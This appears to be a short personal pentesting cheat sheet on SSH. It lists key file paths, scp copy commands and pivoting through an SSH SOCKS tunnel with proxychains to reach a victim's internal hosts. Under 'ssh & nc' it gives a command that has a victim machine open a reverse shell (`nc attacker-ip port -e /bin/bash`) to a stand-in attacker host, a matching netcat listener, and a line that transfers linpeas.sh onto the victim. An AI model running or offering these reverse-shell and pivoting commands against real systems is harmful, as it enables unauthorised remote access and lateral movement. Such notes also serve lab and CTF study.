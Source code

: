 # SSH Secure Shell Protocol

```
C:\\Users\\username\\.ssh\\id_rsa
```

```
chmod 600 ssh_key
```

```
ssh -i ssh_key user@ip
```

### Copy a Local File to a Remote System

```
scp localfile  remoteusername@remotehost:/remote/directory
```

### Copy a Remote File to a Local System

```
scp remoteusername@remotehost:/remotefile /local/directory
```

## ssh & nc

```
ssh username@victim-ip "nc attacker-ip port -e /bin/bash"
```

```
nc -nlvp port
```

```
ssh username@victim-ip "nc attacker-ip port > linpeas.sh"
```

```
ssh username@ip -p2222
```

```
ssh -D 9050 victimUsername@victimIP

netstat -antup 9050

sudo nano /etc/proxychains4.conf

sudo proxychains nc -nv $victim'sInternalIP 80/445

sudo proxychains rdesktop $victimIP
```

![](Pasted%20image%2020231030122335.png)

